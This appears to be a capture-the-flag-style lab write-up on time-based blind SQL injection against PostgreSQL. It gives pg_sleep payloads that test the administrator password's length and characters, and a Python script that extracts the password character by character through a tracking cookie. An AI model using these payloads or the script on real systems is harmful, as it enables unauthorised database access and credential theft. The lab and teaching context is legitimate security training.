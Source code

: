 Obtain the length of the password.
```postgresql
'%3b select case when(username='administrator' and length(password)=20) then pg_sleep(5) else pg_sleep(0) end from users-- -
```

How obtain data(very similar to blind conditional response and error.) 
```postgresql
'%3b select case when(username='administrator' and substring(password,1,1)='3') then pg_sleep(5) else pg_sleep(0) end from users-- -
```

Create python script:

```python
#!/usr/bin/env python3

import sys
import signal
import string
import time
import requests
from termcolor import colored
from pwn import *

URL = 'https://0a5a00930348319c819766610007008c.web-security-academy.net/'
CHARACTERS = string.ascii_lowercase + string.digits

p1 = log.progress("SQLi")
p2 = log.progress("Password")

def event_handler(sig, frame):
    print(colored("\n\n [+] Exiting...", "red"))
    sys.exit(0)

signal.signal(signal.SIGINT, event_handler)

def run_sqli():

    password = ''
    p1.status("Starting bruteforce attack...")
    time.sleep(2)

    for position in range(1,21):
        for character in CHARACTERS:
            cookies = {
                    'TrackingId': f"'%3b select case when(username='administrator' and substring(password,{position},1)='{character}') then pg_sleep(3) else pg_sleep(0) end from users-- -",
                    'session': "FKugbhkg9pHK2pqwN99h7sWtZ3s9fTbA"
                    }

            p1.status(cookies["TrackingId"])
            time_start = time.time()
            r = requests.get(URL, cookies=cookies)

            time_end = time.time()

            if time_end - time_start > 3:
                password += character
                p2.status(password)
                break

if __name__ == '__main__':
    run_sqli()

```
